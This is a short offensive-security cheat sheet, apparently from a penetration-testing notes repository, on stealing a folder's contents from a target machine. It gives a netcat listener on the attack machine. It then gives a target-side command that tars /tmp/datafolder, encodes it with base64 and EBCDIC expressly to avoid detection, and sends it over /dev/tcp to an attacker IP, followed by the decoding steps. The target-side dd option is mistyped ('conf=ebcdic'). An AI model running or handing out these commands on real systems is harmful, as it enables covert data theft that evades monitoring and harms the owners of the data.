 # Exfiltrate over TCP Socket with EBCDIC and Base64
##### Establish listener on attack machine and output to file.
```bash
nc -lnvp 80 > datafolder.tmp
```
##### From target, tar folder container efil data with Base64 & EBCDIC (to avoid detection) and redirect STDOUT to TCP socket.
```bash
tar zcf - /tmp/datafolder | base64 | dd conf=ebcdic > /dev/tcp/<Attack IP Address>/80
```
##### From attack machine, decode and extract archive.
```bash
dd conv=ascii if=/tmp/datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### References
[Base64](https://en.wikipedia.org/wiki/Base64)

[EBCDIC](https://en.wikipedia.org/wiki/EBCDIC)

[I/O Redirection](http://www.tldp.org/LDP/abs/html/io-redirection.html)

# Exfiltrate over SSH
[SSH](../../Services/SSH/README.md#DataExfiltration)
